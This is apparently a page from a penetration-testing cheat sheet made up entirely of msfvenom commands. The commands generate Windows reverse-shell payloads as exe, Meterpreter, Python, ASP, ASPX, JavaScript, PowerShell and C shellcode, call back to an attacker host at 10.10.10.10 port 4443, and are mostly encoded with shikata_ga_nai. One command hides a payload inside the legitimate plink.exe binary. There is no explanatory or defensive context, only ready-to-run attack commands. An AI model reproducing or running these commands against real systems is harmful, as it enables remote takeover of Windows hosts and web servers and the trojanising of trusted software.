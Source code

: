 ### # Windows non staged reverse shell

- * msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4443 -e x86/shikata_ga_nai -f exe -o non_staged.exe

### # Windows Staged (Meterpreter) reverse shell

- * msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=4443 -e x86/shikata_ga_nai -f exe -o meterpreter.exe

### # Windows Python reverse shell

- * msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4443 EXITFUNC=thread -f python -o shell.py

### # Windows ASP reverse shell

- * msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4443 -f asp -e x86/shikata_ga_nai -o shell.asp

### # Windows ASPX reverse shell

- * msfvenom -f aspx -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4443 -e x86/shikata_ga_nai -o shell.aspx

### # Windows JavaScript reverse shell with nops

- * msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4443 -f js_le -e generic/none -n 18

### # Windows Powershell reverse shell

- * msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4443 -e x86/shikata_ga_nai -i 9 -f psh -o shell.ps1

### # Windows reverse shell excluding bad characters

- * msfvenom -p windows/shell_reverse_tcp -a x86 LHOST=10.10.10.10 LPORT=4443 EXITFUNC=thread -f c -b "\x00\x04" -e x86/shikata_ga_nai

### # Windows x64 bit reverse shell

- * msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4443 -f exe -o shell.exe

### # Windows reverse shell embedded into plink

- * msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4443 -f exe -e x86/shikata_ga_nai -i 9 -x /usr/share/windows-binaries/plink.exe -o shell_reverse_msf_encoded_embedded.exe

